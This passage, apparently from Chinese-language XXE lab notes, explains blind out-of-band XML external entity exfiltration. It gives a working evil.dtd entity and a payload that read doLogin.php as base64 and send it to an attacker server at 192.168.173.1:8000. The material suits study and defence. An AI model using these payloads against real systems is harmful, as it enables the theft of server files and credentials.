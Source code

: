 从访问日志当中读取到指定的文件

![image-20240226164203821](10.xml%E6%B3%A8%E5%85%A5xxe/image-20240226164203821.png)


- 主要思路分析
   - 先调用%remote，请求远程服务器(攻击服务器)上的`http://192.168.173.1:8000/evil.dtd`
   - 再调用evil.dtd中的%file。%file获取受攻击的服务器上面的敏感文件，然后将%file的返回结果传到%send。
   - 然后调用%send;把读取到的数据发送到远程服务器上。
   - 这样就实现了外带数据的效果，解决 XXE 无回显的问题。
- 优化一下payload

修改 `http://192.168.173.1:8000/evil.dtd` 文件为

```xml
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://192.168.173.1:8000?p=%file;'>">
```

对应的payload为

```xml
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://192.168.173.1:8000/evil.dtd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php"> %dtd;%payload;%send;
]>
```
